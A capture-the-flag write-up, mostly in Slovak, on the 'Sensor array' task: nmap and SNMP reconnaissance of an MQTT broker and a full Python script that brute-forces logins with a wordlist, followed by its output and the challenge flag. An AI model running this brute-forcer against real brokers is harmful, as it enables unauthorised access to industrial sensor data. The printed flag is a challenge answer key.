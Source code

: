 # Zadanie

Hi, emergency troubleshooter,

sensor data from the distribution network are being continuously transmitted to `broker.powergrid.tcc`. However, the outsourced provider went bankrupt last week, and no one else has knowledge of how to access these data. Find out how to regain access to the sensor array data.

Stay grounded!

## Riešenie

Ako už zadanie nepovedá, zrejme pôjde o MQTT a bude otvorený port 1883, overím cez nmap. 

```shell
$ nmap -Pn -p 1883 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-20 20:05 CEST
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.017s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE SERVICE
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

Je to tak, ale pri pokuse o pripojenie mi hlási 

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -t '#' -v
Connection error: Connection Refused: not authorised.
```

Meno a heslo však neviem, zrejme bude treba brute-forceovať, resp. použiť nejaký slovníkový útok. Najčastejšie používam list common.txt a rockyou.txt. Skúsim menší, common.txt a vzhľadom na to, že neviem ani meno, ani heslo, skúsim najprv tak, že meno aj heslo budú rovnaké.

```python
# mqtt_brute_fixed.py
import time, random, string, sys
from threading import Event
import paho.mqtt.client as mqtt

HOST = "broker.powergrid.tcc"
PORT = 1883
CONNECT_TIMEOUT = 4.0
MSG_WAIT = 2.0
with open("common.txt", "r") as f:
    creds = [line.strip() for line in f if line.strip()]

def try_creds(up):
    connect_event = Event()
    message_event = Event()
    rc_holder = {"rc": None}
    msg_preview = {"topic": None, "payload": None}

    cid = "ctf-" + ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(6))

    def on_connect(client, userdata, flags, rc):
        rc_holder["rc"] = rc
        if rc == 0:
            client.subscribe("#", qos=0)
        connect_event.set()

    def on_message(client, userdata, msg):
        msg_preview["topic"] = msg.topic
        try:
            msg_preview["payload"] = msg.payload.decode("utf-8", errors="replace")
        except Exception:
            msg_preview["payload"] = repr(msg.payload[:120])
        message_event.set()
        client.disconnect()

    client = mqtt.Client(client_id=cid, protocol=mqtt.MQTTv311, clean_session=True)
    if up:
        client.username_pw_set(up, up)

    client.on_connect = on_connect
    client.on_message = on_message

    try:
        client.connect(HOST, PORT, keepalive=30)
    except Exception as e:
        print(f"[!] Connection error for {up}:{up} -> {e}")
        return False, None

    client.loop_start()
    connected = connect_event.wait(CONNECT_TIMEOUT)
    if not connected:
        client.loop_stop()
        return False, None

    rc = rc_holder["rc"]
    if rc != 0:
        client.loop_stop()
        return False, rc

    got_msg = message_event.wait(MSG_WAIT)
    client.loop_stop()

    if got_msg:
        tp = msg_preview["topic"]
        pl = msg_preview["payload"]
        print(f"[+] SUCCESS {up}:{up} -> sample: {tp} {pl[:200]!r}")
        return True, rc
    else:
        print(f"[i] Auth ok for {up}:{up} (rc={rc}) but no $SYS messages within {MSG_WAIT}s")
        return True, rc

if __name__ == "__main__":
    for name in creds:
        print(f"[*] Trying {name}:{name}")
        ok, rc = try_creds(name)
        if ok:
            print(f"\n[!] WIN: username='{name}' password='{name}' (rc={rc})\n")
            sys.exit(0)
    print("[-] No creds matched.")
```

Skript sa teda podaril, meno aj heslo sú rovnaké, posledné riadky z výstupu sú

```log
...
[*] Trying reader:reader
[+] SUCCESS reader:reader -> sample: sensors/dev3 'TEST{84GL-Fm58-wE4P-rB54}'

[!] WIN: username='reader' password='reader' (rc=0)
```

teraz použijem `mosquitto_sub` a uvidím, čo sa tam publishuje.

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -u reader -P reader -t '#' -v
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
sensors/prod FLAG{0hs0-SiJm-TO5B-46HD}
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
```

Vac mi netreba. Vlajka ma vlastný topic, stačí počkať max 4s a vlajka sa objaví.

---------------------

Po odoslaní write-upu autorom mi odpísali

> U úlohy "Sensor array" by Vám pomohlo udělat ještě UDP scan, tam se  
> skrývá nápověda, která by velmi zjednodušila až odstranila nutnost  
> bruteforce.



Vôbec mi to nenapadlo v čase riešenia, dodatočne som teda pozrel a skutočne.

```
$ sudo nmap -Pn -sU --top-ports 10 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-31 19:15 CET
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.018s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE  SERVICE
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm

   161/udp  open   snmp

445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.78 seconds
```

Je tu otvorený udp port 161. Odtrhol som ho pre zvýraznenie.

> $ snmpwalk -v 2c -c public broker.powergrid.tcc
> 
> 
> iso.3.6.1.2.1.1.1.0 = STRING: "MQTT broker for power grid sensors. Only ***<u>reader</u>*** has the rights to subscribe to a topic!"
> iso.3.6.1.2.1.1.3.0 = Timeticks: (111704874) 12 days, 22\:17\:28.74
> iso.3.6.1.2.1.1.5.0 = STRING: "Mosquitto"
> iso.3.6.1.2.1.1.6.0 = STRING: "DC A, area 51"
> iso.3.6.1.2.1.1.7.0 = INTEGER: 1
> iso.3.6.1.2.1.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)

Je to skutočne tak, meno používateľa by som mal známe hneď a pravdepodobne by som skúsil rovnaké heslo.

## Vlajka

    FLAG{0hs0-SiJm-TO5B-46HD}
